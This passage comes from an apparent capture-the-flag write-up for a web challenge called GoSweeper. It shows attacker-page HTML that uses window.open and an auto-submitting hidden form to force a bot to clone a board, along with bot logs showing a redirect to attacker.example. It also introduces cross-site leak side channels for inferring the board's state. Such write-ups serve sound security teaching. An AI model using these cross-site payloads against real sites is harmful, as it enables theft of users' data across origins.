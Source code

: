 ```html
<script>
window.open("https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd");
</script>
```

Alternatively, and perhaps more flexibly, we can also use HTML forms, which
allow us to do POST requests as well.
As such, the example above can be rewritten as (notice `target="_blank"` in the
form HTML to open it in a new tab):

```html
<form id="form-clone" method="get" action="https://gosweeper.example/clone" target="_blank">
  <input type="hidden" name="cloneid" value="fe24ecea6cf48d9604127b1204bb24fd" />
</form>

<script>
  document.getElementById('form-clone').submit();
</script>
```

We can see from the browser logs that the bot indeed successfully clones the board,
since the request to `/board?xray=1` no longer redirects to `/newboard`!

```hl_lines=5 8
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 404 https://attacker.example/favicon.ico
// ...
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
```

Now that we have successfully cloned the board, while still having an open tab
with our malicious website open, we can try to make certain requests in order
to hopefully extract information about the state of the board.
Given that all traditional methods of getting information (e.g., sending a request
using `fetch`) are blocked, we are left with just one option: side channels.

### XSLeaks

As previously mentioned, side channels on the web are commonly referred to as
Cross-Site Leaks ([XSLeaks]), and they allow an attacker (us) to infer information
present in another origin (GoSweeper).
Going through the XSLeaks Wiki reveals a number of approaches one could take,
which mainly rely on having the website and/or browser exhibit
different behaviour based on the state of the board.

To take advantage of this, we first need to find a scenario in which a request
is handled differently depending on certain actions.
The challenge gives us the hint that we might not be able to get the whole board
at once, since we are limited to 5 clones per board.
Therefore, it is likely that we will only be able to infer whether a certain
tile is a bomb.


[XSLeaks]: https://xsleaks.dev
[CSP header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[cors-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[cookie-lax]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax
[coop-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy
[corp-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy
[max-redirects]: https://xsleaks.dev/docs/attacks/navigations/#max-redirects
[unload-event]: https://developer.mozilla.org/en-US/docs/Web/API/Window/unload_event
[window-opener]: https://developer.mozilla.org/en-US/docs/Web/API/Window/opener
[max-redirect-demo]: https://xsinator.com/testing.html#Max%20Redirect%20Leak
[Express]: https://expressjs.com/
[Mustache]: https://mustache.github.io/